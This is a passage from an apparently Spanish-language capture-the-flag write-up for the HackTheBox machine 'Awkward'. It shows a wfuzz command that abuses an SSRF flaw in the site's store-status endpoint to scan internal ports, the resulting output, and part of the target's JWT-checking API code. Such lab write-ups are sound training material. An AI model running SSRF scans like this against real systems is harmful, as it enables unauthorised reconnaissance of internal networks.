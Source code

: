 Esto es vulnerable a SSRF, asi que vamos a fuzzear puertos a ver si encontramos algo interesante:

{% highlight bash %}
#wfuzz -c -z range,0-65535 -b "token=whateveryouwant" --hw=0 -t 200 "http://hat-valley.htb/api/store-status?url=%22http:%2F%2F127.0.0.1:FUZZ%2F"

000000081:   200        8 L      13 W       132 Ch      "80"                                                                                  
000003003:   200        685 L    5834 W     77002 Ch    "3002"                                                                                
000008081:   200        54 L     163 W      2881 Ch     "8080"  
{% endhighlight %}

Hay dos puertos internos en la maquina, vamos a ver...

El 3002 es la API del sitio:

![API](/assets/writeups/awkward/11.png)

El 8080 es el mismo sitio web que vimos al principio.

Viendo la API nos va mostrando el código de esta en cuestión, hay rutas interesantes como `staff-details` pero hay una llamada `all-leaves` que tiene una parte de código algo curiosa:

{% highlight javascript %}
  if(user_token) {

    const decodedToken = jwt.verify(user_token, TOKEN_SECRET)

    if(!decodedToken.username) {

      authFailed = true

    }

    else {

      user = decodedToken.username

    }

  }

  if(authFailed) {
